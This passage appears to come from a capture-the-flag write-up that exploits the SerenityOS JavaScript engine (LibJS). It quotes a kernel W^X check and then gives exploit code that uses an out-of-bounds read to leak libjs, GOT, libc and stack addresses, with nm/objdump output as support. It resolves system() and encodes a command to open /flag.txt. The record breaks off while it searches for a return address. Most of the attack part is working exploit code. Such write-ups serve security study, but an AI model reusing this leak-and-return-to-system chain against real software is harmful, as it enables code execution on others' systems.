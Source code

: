 ```cpp
// in mmap.cpp:90+
    if (make_writable && region->has_been_executable())
        return false;

    if (make_executable && region->has_been_writable()) {
        if (should_make_executable_exception_for_dynamic_loader(make_readable, make_writable, make_executable, *region))
            return true;

        return false;
    }
```

I pretty much tried the easy route after this one.
After leaking addresses to libc.so I wrote a shell command onto the stack and executed it using `system()` ¯\\\_(ツ)\_/¯:

```js
// we are leaking Shape objects here
var libjs_base = a1.oob((128 - 32) / 4) - 0x31aa34
console.log("libjs base @", libjs_base.toString(16))

/*
$> nm -Cl Build/i686/Userland/Libraries/LibJS/libjs.so| grep _GLOBAL_OFFSET_TABLE_
0032227c d _GLOBAL_OFFSET_TABLE_
*/
var libjs_got = libjs_base + 0x0032227c
console.log("libjs .got @", libjs_got.toString(16))

/*
$> objdump -Cd -j .plt Build/i686/Userland/Libraries/LibJS/libjs.so | grep memmove -A4
00084360 <memmove@plt>:
   84360:	ff a3 dc 00 00 00    	jmp    *0xdc(%ebx)
   84366:	68 a0 01 00 00       	push   $0x1a0
   8436b:	e9 a0 fc ff ff       	jmp    84010 <_init+0x10>
*/
var memmove = read(libjs_got + 0xdc)
console.log("memmove @", memmove.toString(16))

/*
nm -Cl Build/i686/Userland/Libraries/LibC/libc.so | grep memmove
00045320 T memmove	./Build/i686/../../Userland/Libraries/LibC/string.cpp:155
*/
var libc_base = memmove - 0x00045320
console.log("libc_base @", libc_base.toString(16))

/*
nm -Cl Build/i686/Userland/Libraries/LibC/libc.so | grep system
00043280 T system	./Build/i686/../../Userland/Libraries/LibC/stdlib.cpp:758
*/
var system = libc_base + 0x00043280

// read environ global variable
/*
objdump -Cd -j .bss Build/i686/Userland/Libraries/LibC/libc.so | grep '<environ'
000a6394 <environ>:
*/
var stack_leak = read(libc_base + 0x000a6000 + 0x394)
console.log("stack leak =", stack_leak.toString(16))

// /bin/TextEditor /flag.txt
cmd = [1852400175, 2019906607, 1768179060, 544370548, 1634493999, 2020879975, 116]

console.log("searching for return address in libjs JS::Program::execute address range ..")
```